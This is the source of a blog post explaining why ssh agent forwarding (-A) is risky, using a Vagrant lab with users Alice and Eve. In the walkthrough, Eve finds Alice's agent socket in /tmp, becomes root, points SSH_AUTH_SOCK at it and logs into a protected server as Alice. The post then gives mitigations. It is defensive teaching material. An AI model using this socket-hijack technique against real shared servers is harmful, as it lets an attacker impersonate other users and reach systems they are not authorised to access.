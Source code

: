 ```yaml
---
layout: post
title: When is ssh -A insecure?
comments: true
author:
  name: Marcelo Dominguez
  email: marcelo@wyeworks.com
  twitter_handle: marpo60
  github_handle: marpo60
  image: /images/team/marcelo-dominguez.jpg
  description: Software engineer - Curious by nature - Sports lover - Tech guy
published: true
---
```


## Introduction

### What's the authentication agent forwarding for?

Let's start showing what `man ssh` says about it:

> `-A` Enables forwarding of the authentication agent
> connection. This can also be specified on a per-host basis in a
> configuration file.
Agent forwarding should be enabled with caution.  Users with the
ability to bypass file permissions on the remote host (for the agent's
UNIX-domain socket)
can access the local agent through the forwarded connection.  An
attacker cannot obtain key material from
the agent, however they can perform operations on the keys that
enable them to authenticate using the identities loaded into the
agent.

It tries to solve the following problem:

`Laptop -> Server A -> Server B`

User wants to connect to Server A and from Server A to Server B
forwarding all authentication requests to Laptop.

<!--more-->

### How do we use it?

{% codeblock lang:sh %}
  user@laptop$ ssh -A serverA
  user@serverA$ ssh serverB
  user@serverB$
{% endcodeblock %}

## So, when is ssh -A insecure?

The man page has the following note:

> Agent forwarding should be enabled with caution.

So, we have to be careful with this option, but what are the problems?

With the intention of gaining more insight about the problem. We'll do
an experiment, we'll set up a scenario that is far from ideal but it's
simple enough to reproduce the problem.

## Experiment

To follow this experiment you'll need to have [vagrant](https://www.vagrantup.com/) installed
in your computer. You don't need to have previous knowledge of vagrant
to follow the experiment.
All the config files used in this experiment can be found [here](https://github.com/marpo60/ssh_forward_agent_issue).

Let's start building a topology from scratch.

The topology will include 3 virtual servers and our own machine:

- host
- web (172.17.8.101)
- worker (172.17.8.102)
- secret (172.17.8.110)

Users:

- me
- Alice (Good)
- Eve (Bad)

Facts:

* The host machine is our machine where we will create the network
topology using virtual machines
* The web server is a virtual machine that will emulate a server
accessible from the internet.
* The worker server is a virtual machine that will emulate a
server accessible only from the web server.
* The secret server is a virtual machine that will emulate a
server accessible only by Alice from the internet.

Let's start the servers with `vagrant up`.

`host$ vagrant up` (This can take a while...)

First let's add all the keys to the ssh agent of the host
machine

{% codeblock lang:sh %}
  me@host$ ssh-add alice_id_rsa
  me@host$ ssh-add eve_id_rsa
{% endcodeblock %}

Now we'll open a new terminal and emulate that Alice is working
on the worker server

Note that for this experiment we set up another instance
of the ssh daemon in port 2222
in order to avoid messing with the default ssh server and
Vagrant configurations, please check the config files.

{% codeblock lang:sh %}
  me@host$ ssh -A -i alice_id_rsa -p 2222 alice@172.17.8.101
  alice@web:~$ ssh -p 2222 172.17.8.102
  alice@worker:~$
{% endcodeblock %}

Now on other terminal let's pretend to be Eve

{% codeblock lang:sh %}
  me@host$ ssh -i eve_id_rsa -p 2222 eve@172.17.8.101
{% endcodeblock %}

Eve will not use `-A` options because she doesn't need to use the
worker server

Eve finds out that alice is connected

{% codeblock lang:sh %}
  eve@web:~$ ps -aux | grep sshd | grep alice
  root      2469  0.0  0.8 107696  4252 ?        Ss   21:49   0:00
  sshd: alice [priv]
  alice     2522  0.0  0.3 107696  1952 ?        S    21:49   0:00
  sshd: alice@pts/1
  eve@web:~$
{% endcodeblock %}

And she also finds out that Alice is using `-A` because a socket
file was generated in /tmp/ssh-\*

{% codeblock lang:sh %}
  eve@web:~$ ls -lha /tmp/
  total 24K
  drwxrwxrwt  5 root    root    4.0K Jan 19 21:55 .
  drwxr-xr-x 23 root    root    4.0K Jan 19 21:34 ..
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .ICE-unix
  drwx------  2 alice   alice   4.0K Jan 19 21:49
  ssh-xeIzefGEYs
  -rwx--x--x  1 vagrant vagrant  676 Jan 19 21:34 vagrant-shell
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .X11-unix
  eve@web:~$
{% endcodeblock %}

Eve now becomes root and impersonate into Alice.

{% codeblock lang:sh %}
  eve@web:~$ sudo su #eve123
  root@web:/home/eve# export SSH_AUTH_SOCK=/tmp/ssh-xeIzefGEYs/agent.2522
  root@web:/home/eve# ssh -p 2222 alice@172.17.8.110
  alice@secret:~$
{% endcodeblock %}

So, with this simple stepts now Eve is connected to secret
machine as Alice.

## Conclusions

It's not unusual for users to have sudo permissions on shared
environments so you should avoid using
-A option if you don't trust that system. One
alternative could be to use `ProxyCommand` instead of `-A` like it
mentions [here](http://backreference.org/2010/02/26/jump-in-with-ssh-and-netcat/).

But in case you have to use the `-A` option and you don't trust the
sudoers of the shared system, create
a new pair of private and public keys for those servers,
in this way you'll reduce the risk of
compromising other servers.

Cheers!
